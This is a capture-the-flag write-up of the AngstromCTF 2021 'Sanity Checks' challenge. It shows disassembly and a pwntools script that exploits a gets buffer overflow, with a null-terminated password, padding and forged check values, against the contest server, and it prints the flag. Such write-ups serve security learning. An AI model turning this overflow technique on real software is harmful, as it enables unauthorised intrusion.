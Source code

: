 # AngstromCTF2021 Sanity Checks
Looking at the sourcecode we see that the application uses `gets`. We therefore know that we can use a bufferoverflow attack.

We see that `strcmp` checks the input for the string `password123`. We can mitigate this but injecting `password123` and then a null byte, because the `strcmp` will stop comparing.

Disassembling the application we wee that:
```
# 327: int main (int argc, char **argv, char **envp);
# ; var char *format @ rbp-0xe0
# ; var char *s1 @ rbp-0x60
# ; var file*stream @ rbp-0x20
# ; var uint32_t var_14h @ rbp-0x14
# ; var uint32_t var_10h @ rbp-0x10
# ; var uint32_t var_ch @ rbp-0xc
# ; var uint32_t var_8h @ rbp-0x8
# ; var uint32_t var_4h @ rbp-0x4
# 0x00401235      cmp     dword [var_4h], 0x32
# 0x00401239      jne     0x4012c1
# 0x0040123f      cmp     dword [var_8h], 0x37
# 0x00401243      jne     0x4012c1
# 0x00401245      cmp     dword [var_ch], 0xf5
# 0x0040124c      jne     0x4012c1
# 0x0040124e      cmp     dword [var_10h], 0x3d
# 0x00401252      jne     0x4012c1
# 0x00401254      cmp     dword [var_14h], 0x11
```
This we only need to add these values at their respective offsets to pass the sanity checks.

Coding it all up we get:
```
from pwn import *
password = b'password123\x00'
padding = b'A'*64
sanity_checks = b'\x11\x00\x00\x00'\
                +b'\x3d\x00\x00\x00'\
                +b'\xf5\x00\x00\x00'\
                +b'\x37\x00\x00\x00'\
                +b'\x32\x00\x00\x00'
payload = password+padding+sanity_checks

conn = remote('shell.actf.co', 21303)
conn.sendline(payload)
response = conn.recvline()
print(response)
response = conn.recvline()
print(response)
```
This returns the flag:  `actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`
